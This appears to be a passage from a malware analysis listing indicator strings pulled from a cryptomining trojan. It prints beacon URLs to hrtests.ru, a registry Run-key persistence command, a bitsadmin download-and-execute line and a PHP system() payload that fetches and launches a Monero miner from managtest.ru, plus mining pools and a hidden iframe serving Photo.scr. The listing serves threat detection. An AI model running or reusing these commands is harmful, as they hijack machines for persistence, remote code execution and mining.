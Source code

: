 # Indicative strings

* http://hrtests.ru/S.php?ver=22&pc=%s&user=%s&sys=%s&cmd=%s&startup=%s/%s
* http://hrtests.ru/S.php?ver=24&pc=%s&user=%s&sys=%s&cmd=%s&startup=%s/%s
* http://hrtests.ru/S.php?ver=29&pc=%d.%d.%d.%d&user=%s&sys=%s&cmd=%s&startup=ok
* http://hrtests.ru/S.php?ver=17&pc=%c%c%c%c%c%c%c&user=%s&sys=%s&cmd=%s&startup=%s/%s
* /c echo f|xcopy /y “%s” “%%APPDATA%%\Photo.exe” && reg add “HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run” /v “Run” /d “%%APPDATA%%\Photo.exe” /t REG_SZ /f
* /c bitsadmin /transfer whatever “http://www.managtest.ru/WinRAR.exe” “%TEMP%\WinRAR.exe” && “%TEMP%\WinRAR.exe”
* /c (echo stratum+tcp://mine.moneropool.com:3333& echo stratum+tcp://monero.crypto-pool.fr:3333& echo stratum+tcp://xmr.prohash.net:7777& echo stratum+tcp://pool.minexmr.com:5555)> %TEMP%\pools.txt
* <?php system(“apt-get update && apt-get install screen libcurl4-openssl-dev libjansson-dev -y & test -e minerd || (wget http://managtest.ru/minerd && chmod 777 minerd && screen -dmS miner ./minerd -a cryptonight -o stratum+tcp://pool.minexmr.com:4444 -u 42n7TTpcpLe8yPPLxgh27xXSBWJnVu9bW8t7GuZXGWt74vryjew2D5EjSSvHBmxNhx8RezfYjv3J7W63bWS8fEgg6tct3yZ -p x)”);
* <iframe src=Photo.scr width=1 height=1 frameborder=0>
* Sr&w09.